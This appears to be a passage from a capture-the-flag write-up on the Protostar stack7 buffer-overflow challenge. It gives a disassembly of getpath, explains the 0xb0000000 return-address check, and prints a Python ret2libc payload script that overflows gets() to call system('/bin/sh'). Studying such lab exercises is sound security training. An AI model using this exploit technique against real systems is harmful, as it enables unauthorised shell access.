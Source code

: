 ```
0x080484f5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:	and    eax,0xb0000000
0x080484fd <getpath+57>:	cmp    eax,0xb0000000
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    eax,0x8048634
0x08048509 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:	mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    eax,0x8048640
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave  
0x08048544 <getpath+128>:	ret    
End of assembler dump.
```

If we look back to the stack6 challenge, our inspection of getpath was:

- grow the stack by 0x68 bytes
- print is called, which likely prints the 'input path please:' string
- gets() is then used to take the user input <-- buffer overflow vulnerability
- an 'and' and 'cmp' instruction are done with EAX and the value '0xbf000000' value. This is likely the 'return address restriction' stated in the hints section
- the win/fail state is determined by a 'jne' instruction with the previously mentioned comparison. If are equal to the restricted value (after the 'and' calculation), we don't jump and exit() instead. If we don't equal that value, we jump over the exit() and carry on. This is likely our route for pwning it.

The only difference in this challenge, from an initial look is our 'and' and 'cmp' instructions. The restriction on our return address appears to be anything that starts with the the bit 'b', indicated by the 'and' calculation with the value "0xb0000000".

This restriction has likely been adapted to prevent us from using the same exploit as before, the ret2libc payload, which is we remember was located in the "0xbf000000" - "0xbfffffff" range. As a quick test, lets use this payload again here and see what happens.

stack6.py:

```
import struct
def build():
    libc_base = 0xb7e97000
    binsh_offset = 0x11f3bf

    string_addr = libc_base + binsh_offset
    system_addr = 0xb7ecffb0
    exit_addr = 0xb7ec60c0

    padding = 'A' * 80

    payload = padding
    payload += struct.pack("I", system_addr)
    payload += struct.pack("I", exit_addr)
    payload += struct.pack("I", string_addr)
    print payload

build()
```